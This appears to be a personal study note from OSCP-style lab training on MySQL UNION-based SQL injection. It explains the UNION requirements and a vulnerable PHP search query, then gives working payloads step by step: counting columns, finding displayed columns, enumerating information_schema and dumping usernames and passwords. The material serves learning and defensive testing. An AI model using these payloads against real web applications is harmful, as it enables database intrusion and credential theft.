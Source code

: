 
# MySQL UNION Attack
When an attacker uses the [SQL](/coding/languages/SQL.md) `UNION` keyword to retrieve data from more than one table in the database. This vuln should be tested for whenever a [SQLi](SQLi.md) resultes in the returned balue *being displayed by the application* in response. 
## UNION keyword
In SQL the `UNION` keyword allows you to execute more than one `SELECT` query and append the results to the original query. The injected `UNION` query has to have the *same number* of columns as the original query and the data types need to be *compatible* with each other.
### Attack requirements
1. The # and order of columns which appear in all SELECT statements must be the same
2. The data types of the columns must be the same or compatible
#### Sample Tables:
```sql
DROP TABLE IF EXISTS t1;
DROP TABLE IF EXISTS t2;

CREATE TABLE t1 (
    id INT PRIMARY KEY
);

CREATE TABLE t2 (
    id INT PRIMARY KEY
);

INSERT INTO t1 VALUES (1),(2),(3);
INSERT INTO t2 VALUES (2),(3),(4);
```
##### Return result sets from `t1` and `t2`
```sql
-- Query:
SELECT id FROM t1 UNION SELECT id FROM t2;

-- Output:
+----+
| id |
+----+
|  1 |
|  2 |
|  3 |
|  4 |
+----+
4 rows in set (0.00 sec)
```
## Example
If a website has the following pre-configured SQL query:
```php
$query = "SELECT * from customers where name like '".
$_POST["search_input"]."%'";)
```
This query fetches all the records from a table called `customers` and uses the `like` keyword to search it for any name values containing the input (supplied by the user which is followed by zero or any number of characters (specified by `%`)). The percent sign `%` is a *wildcard* character used with the `like` keyword. It represents 1, zero, or multiple characters in a text or string search.

For this example, pretend that the vulnerable web application has a customer search portal which will return names of customer's along with their phone number, address, and country. Before attacking the portal with a UNION attack we need to know *the exact number of columns* present in the table. Even if the web application is showing us four columns (name, phone, address, country) it may not be showing us *all of the columns* in the actual table.
### Discovering Number of Columns
To discover the exact number of columns in the table, we can inject the following query:
```sql
' ORDER BY 1-- //
```
This statement will cause the results to be ordered by a specific column *but will fail if the column doesn't exist*. For example, if the table has five columns, then `ORDER BY 6` will return an error since there isn't a sixth column to return. The error will likely read something like:
```sql
Unknown column '6' in 'order clause'
```
Now we know there are 5 total columns in the table. Next we need to determine which ones are displayed normally. For example, entering `' order by 99-- //` into the Username field causes this web application to respond with:
![](../../../../OSCP/hidden/oscp-hidden-pics/Pasted%20image%2020250415140507.png)
### Discovering Which Columns are Displayed
To discover which columns are normally displayed, we can use the `UNION` keyword:
```sql
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```
Using the `%` and a single quote will allow us to retrieve *all of the data* from the `customers` table. The `%'` will *close off the search parameter* in the web application's code (see above). 
![](../../../cybersecurity-pics/UNION-attack-1.png)
The query essentially appended the original query with 5 values that we created, which you can see at the bottom of each column. Now we know that the first column in the table is the only column we can't see. This is normal because the first column is *usually reserved for each item's ID*. 
### Enumerating with UNION
Now we can use a UNION attack to enumerate more information from the database and MySQL service running it:
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
In this injection, we're asking for 5 pieces of information to be appended to the original query. `database()` should give us the current database's name. `user()` should return the current user. `@@version` should tell us the version of MySQL running. Then we give two `null` values as placeholders (since the UNION query statement has to return the same number of columns as the query its appended to).
![](../../../cybersecurity-pics/UNION-attack-2.png)
The first column (where we expect to see `database`) does not show, so we need to fix our query and put the `database()` function in one of the `null` positions instead. Additionally, we don't need the `%` sign anymore since we've figured out how many columns there are and which ones are showing:
```sql
' UNION SELECT null, null, database(), user(), @@version -- //
```
Now, we'll only see the results from our appended query instead of the entire database (since we took out the `%`):
![](../../../cybersecurity-pics/UNION-attack-3.png)
### Enumerating with UNION and the Information Schema
Now that we've confirmed the web app is vulnerable to UNION attacks, we can leverage this vuln to verify whether *other tables* are present in the database. We can do this by enumerating the database's *[`information_schema`](../../../../CLI-tools/linux/mysql.md#`information_schema`)* (a table in every [MySQL](../../../../CLI-tools/linux/mysql.md) server which holds metadata about the MySQL server). 

We can use `information_schema` to check its `columns` table. This will tell us what columns exist in each table on the server. In our injected query, we'll ask for each table's name, column names, and table schema. We'll leave the first and fifth items set to null:
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![](../../../cybersecurity-pics/UNION-attack-4.png)
The output tells us that the database `offsec` has two tables, `users` and `customers`. The `customers` table has 5 columns (as we already determined), and the `users` table has 4: `id`, `username`, `password`,  and `description`.
### Using UNION to Dump Additional Databases
Now we can craft an injected query to dump the `users` table, since we obviously want all of the user's paswords!
```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```
![](../../../cybersecurity-pics/UNION-attack-5.png)


> [!Resources]
> - [My SQL Tutorial: Union Attacks](https://www.mysqltutorial.org/sql-union-mysql.aspx/)
> - [Port Swigger](https://portswigger.net/web-security/sql-injection/union-attacks)
> - [MySQL Documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html)

